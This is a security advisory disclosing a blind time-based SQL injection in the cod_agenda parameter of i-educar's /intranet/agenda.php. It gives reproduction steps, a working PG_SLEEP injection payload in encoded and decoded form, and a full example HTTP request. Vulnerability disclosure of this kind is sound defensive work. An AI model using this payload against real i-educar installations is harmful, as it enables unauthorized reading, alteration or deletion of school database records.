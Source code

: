 # SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda.php` Endpoint

### Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/intranet/agenda.php</code> endpoint of the i-educar application, specifically in the <code>cod_agenda</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### Details

Vulnerable Endpoint: `/intranet/agenda.php`

Parameter: `cod_agenda`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>cod_agenda</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### PoC

#### Step by Step:

<p align="justify">Access vulnerable endpoint and click on <code>"Novo Compromisso"</code> button to setup a new entry. Type required values in the fields and click on <code>"Salvar"</code>. The page will automatically redirect to another Endpoint like: <code>http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283</code>.</p>

![](/CVEs/images/SQLi1.png)

![](/CVEs/images/SQLi2.png)

![](/CVEs/images/SQLi3.png)

##

#### Payload:

````html
%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
````

#### Decoded Payload:

````html
' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /intranet/agenda.php?cod_agenda=2%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO  HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=5AfYtvGRiuEgLBVbvksmwiNSnG75l4waXNMo1PEV
Connection: keep-alive
````
##

#### Normal Request:

![](/CVEs/images/SQLi4.png)

#### SQLi Request:

![](/CVEs/images/SQLi5.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

---

### Impact

<p align="justify">
<ul>
  <li>Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details</li>
  <li>Database enumeration: Extracting database schema, tables, and column details</li>
  <li>Data manipulation: Adding, modifying, or deleting database records.</li>
  <li>Denial of Service (DoS): Using time-based queries to impact system availability.</li>
  <li>Potential escalation to RCE: If combined with other vulnerabilities and specific database features.</li>
</ul>
</p>

---

### Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.g@aluno.ifsp.edu.br)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*